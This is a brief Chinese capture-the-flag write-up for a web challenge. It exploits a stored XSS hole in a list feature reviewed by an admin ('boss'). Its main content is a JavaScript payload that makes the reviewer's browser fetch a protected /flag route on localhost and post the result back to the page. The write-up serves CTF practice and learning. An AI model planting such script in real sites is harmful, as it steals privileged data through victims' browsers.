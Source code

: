 # 解题步骤（WriteUp）

第一步：使用浏览器访问赛题环境 [http://0192d6262ea37831bc782232dda15010.y4op.dg04.ciihw.cn:43811/](http://0192d6262ea37831bc782232dda15010.y4op.dg04.ciihw.cn:43811/)

![[Pasted image 20241029114729.png]]

第二步：输入任意用户名密码开一个新的list

同时发现`/flag`路由，只有boss能访问

第三步：有boss审核，猜测存在XSS

尝试发现机子不出网，直接向list页面post信息，获取flag

```js
<script>
        var url = document.location.href;
        fetch("http://127.0.0.1:5000/flag").then(resp => resp.text()).then((flag) => {
            var xhr = new XMLHttpRequest();
            xhr.open("POST", url, true);
            xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            xhr.send("content=" + flag);
        });
</script>

```

![[Pasted image 20241029114758.png]]
